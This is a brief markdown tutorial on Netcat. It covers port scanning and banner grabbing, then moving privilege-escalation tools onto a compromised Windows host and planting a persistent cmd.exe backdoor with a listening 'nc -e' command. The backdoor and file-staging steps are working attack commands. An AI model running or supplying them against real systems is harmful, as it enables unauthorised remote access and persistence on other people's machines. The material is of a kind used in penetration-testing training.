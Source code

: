 # Using Netcat for port scanning
The most basic form of command is:
`# nc [options] host port(s)`
options are described below
host can be either an IP address or valid hostname
Ports can be a single port or a range of ports such as 20-53 or individual ports separated by spaces.

### Let's get started
A small tool that can do remote port scanning would be nice to have and Netcat can fill this role very well and a lot of other ones.

A typical command to perform port scanning would be:
`# nc -v -w 3 -z 192.168.1.69 20-150`
The first portion of the command line that says: nc -v -w 3 which simply tells Netcat to give us more verbose feedback and to timeout after 3 seconds if no connections could be established.

The -z switch prevent Netcat from sending any data to a TCP connection and it will only send very limited data to a UDP connection.

Here is another example: you will use UDP protocol instead of the TCP protocol.
`# nc -v -w 3 -z -u 192.168.1.69 20-100`

### Using Netcat for banner grabbing
Another neat usage of Netcat is for banner grabbing(technique to glean information of the system on the Internet)
`# nc -v -n 192.168.1.69 80
GET HTTP`
Once connected above you simply issued the command: GET HTTP

### Combining both port scan and banner identification
Now we will combine both Port Scan and banner identification.
```bash
# echo GET HTTP | nc -v -n 216.58.199.228 80
```

### Using Netcat to transfer files
Netcat can be used as well to transfer files between two hosts. It can be a very effective tool to transfer the files that you need in order to escalate your privileges on a remote host.
Let's suppose we have the following scenario. You have a Windows host that you successfully compromised and you wish to transfer additional tools to it in order to escalate your privileges.
on the remote host:
`# nc -l -p 53 > toolkit.zip`
on the local host:
`# nc [remote host] 53 < toolkit.zip`

### Setting up a backdoor
You have compromised a Windows host and you wish to establish a backdoor that you will be able to connect to from your BackTrack attack machine.
on the compromised windows host:
`# nc -l -p 80 -d -e cmd.exe -L`
on the local host:
`# nc [remote host] 80`
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTMxNzQwMTQ4MSw1Nzg1OTM4NDIsMTE5OT
I1Mzk3MCw5NDYwMjIzMjMsMTM3Mjk4NjIwMF19
-->